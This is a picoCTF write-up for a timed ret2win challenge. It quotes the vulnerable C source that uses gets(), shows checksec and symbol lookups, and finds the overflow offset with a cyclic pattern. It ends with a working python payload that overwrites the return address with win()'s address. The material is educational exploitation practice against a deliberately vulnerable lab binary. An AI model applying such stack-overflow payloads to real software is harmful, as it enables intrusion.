










## Challenge Overview

> It's a race against time. Solve the binary exploit ASAP.

The title is not just flavor text. This challenge means it. Once you trigger the binary you have 120 seconds before the files vanish and the process resets. The binary is different every run, which means the offset and the `win()` address change every time too. Speed and a solid process matter here more than anything else.



---

## Step-1: Reading the Instructions



Connected to the remote instance and listed the files. Three things are present: `CodeBank`, `instructions.txt`, and `start`. Reading `instructions.txt` makes the rules clear:

* Run `./start` to pull a random C source file and binary from the CodeBank
* A fresh binary and its source get dropped into the current directory
* The clock starts the moment the files land. 120 seconds. Not a suggestion
* Exploit it in time and the flag is yours. Miss the window and everything gets wiped

This is not a static challenge. Every session hands you a different binary with a different buffer size and a different `win()` address. The technique stays the same but the numbers change every time.

---

## Step-2: Starting the Clock



Started the challenge and got `19.c`. Since the timer was already ticking, I immediately reviewed the source code to identify the vulnerability, locate the target function, and understand the program's layout. Once I had a clear picture of the attack path.

---

## Step-3: Reading the Source and Binary Info

The `file` command on one of the generated binaries confirms what we are dealing with:

```
./19: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2, not stripped
```

`ELF 32-bit`, `Intel 80386`, `setuid`, not stripped. The setuid bit means the binary runs with elevated privileges which is how it can read `flag.txt`. Not stripped means function names like `win` are still visible in the binary which makes finding its address trivial.

Running `checksec` reveals the full protection picture:

```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x8048000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

No canary means nothing watches over the return address on the stack. No PIE is the critical one here. PIE stands for Position Independent Executable. When PIE is enabled the OS loads the binary at a random base address every run, which means every function including `win()` lands at a different address each time. You would have no way to hardcode it into your payload. With No PIE the binary always loads at `0x8048000` and every function offset from that base is fixed forever. `win()` will always be at the same address, every single run, on every machine that executes this binary.

The source code that gets dropped alongside the binary looks like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "CodeBank/asm.h"

#define BUFSIZE 63
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("CodeBank/flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "You may not have plenty of time",
                    "to solve the challenge.\n");
    exit(0);
  }
  fgets(buf, FLAGSIZE, f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n",
         get_return_address());
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Three things jump out immediately. First, `win()` reads and prints the flag but `main()` never calls it. Second, `vuln()` uses `gets(buf)` which has zero size limit and will write as many bytes as you send regardless of how large `buf` actually is. Third, and this is the golden detail, `vuln()` calls `get_return_address()` and prints it before returning. The binary is literally showing us where execution is about to go. When we overflow the buffer and overwrite the return address with the address of `win()`, that `printf` line will confirm the jump happened before the `SIGSEGV` even fires.

Note that `BUFSIZE` is just an example value. Every binary the CodeBank generates uses a different value, so the offset changes on every run. The structure of the code stays identical but the numbers do not.

Now that we know `win()` is the function we need to reach, we confirm its exact address using two tools that read it straight from the binary:

```
$ nm ./19 | grep "win"
080491f6 T win

$ objdump -D ./19 | grep "win"
080491f6 <win>:
 804922c:   75 2a    jne    8049258 <win+0x62>
```

Both `nm` and `objdump` agree. `win()` lives at `0x080491f6`. That is the address we will place at the return address slot in our payload. No guessing, no scanning, no leaks needed. No PIE handed it to us on a plate.

---

## Step-4: Finding the Offset



With the `200-byte` cyclic pattern prepared, I had a reliable way to measure the offset to the saved return address. Because each `4-byte` chunk in the pattern is unique, any value that appears in the instruction pointer after a crash can be traced back to its precise position in the input. 
I fired up GDB, launched the binary, supplied the cyclic pattern, and observed the segmentation fault to pinpoint where the overflow reached the return address.




The binary printed `Jumping to 0x61616462` and crashed with `SIGSEGV`. The program itself tells us where it tried to jump. That is the value that landed in the return address slot. We do not even need to dig through registers. `vuln()` prints the return address it is about to jump to before it actually does it, which is the binary giving us the answer on a silver platter.

Ran `pwn cyclic -l 0x61616462` immediately.

Offset: `111`. So 111 bytes of padding reach the return address on this particular run.

Built the payload on the spot: 111 A's followed by the address of `win()` packed as a 32-bit little-endian integer.

```
python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*111 + struct.pack("<I",0x080491f6))' | ./19
```

`win()` address for this run was `0x080491f6`. The binary jumped there, opened the flag file, and printed the flag. Manual method done within the time window.

---

## Step-5: The pwntools Script

Worth being transparent here. The manual method and the pwntools method were not performed on the same binary. The 120-second window ran out before the pwntools script could be tested on binary `19`. A fresh `./start` was triggered which dropped a new binary, `24`, with a completely different `BUFSIZE` and a different `win()` address. That is why the two methods show different offsets and different binaries. The exploit process is identical, only the numbers changed.

For this new run the cyclic pattern found the return address at `0x6e626161` and `pwn cyclic -l 0x6e626161` gave an offset of `149`. The `win()` address also shifted.

Rather than repeating the manual steps every time, a pwntools script handles it cleanly.



The script loads the current binary with `ELF('./24')` (update the name to whatever `./start` generated), spawns it as a local process, builds the payload as the correct number of A's followed by `win()` packed with `p32()`, waits for the input prompt, sends the payload, and drops into interactive mode to receive the flag output.

Two things the script reminds you to do on every fresh run:
* Update the binary name to match what `./start` generated
* Update the offset to match what `pwn cyclic -l` returned for this run



New run, new binary `24`, new offset `149`. Script updated and fired.



The script connected, sent the payload, the binary jumped to `win()` at `0x80491f6`, and the flag printed before the 120 seconds expired.

---

## Step-6: Submitting the Flag






---

## Flag

```
picoCTF{u_Us3d_***************}
```

> We’ll let you take it from here Binary and offset are already in your hands have fun finishing it!
---

## What This Challenge Teaches

offset-cycle is a ret2win under pressure and it teaches more than just exploitation technique:

* The binary itself leaks the return address it is about to jump to via `printf`. Reading what the program tells you is always the first step before reaching for any tool
* `gets()` is the most dangerous standard input function in C. It has no size argument at all. It reads until a newline regardless of how much space the buffer has. There is no safe way to use it
* Every run produces a different binary with a different `BUFSIZE` and a different `win()` address. The process must be fast enough to work within 120 seconds which means no hesitation between steps
* On 32-bit binaries addresses are packed with `struct.pack("<I", addr)` or `p32(addr)`. The `<I` means little-endian unsigned 32-bit integer, which is how x86 stores addresses in memory
* Speed is a skill. Knowing what to do matters nothing if you cannot execute it before the clock runs out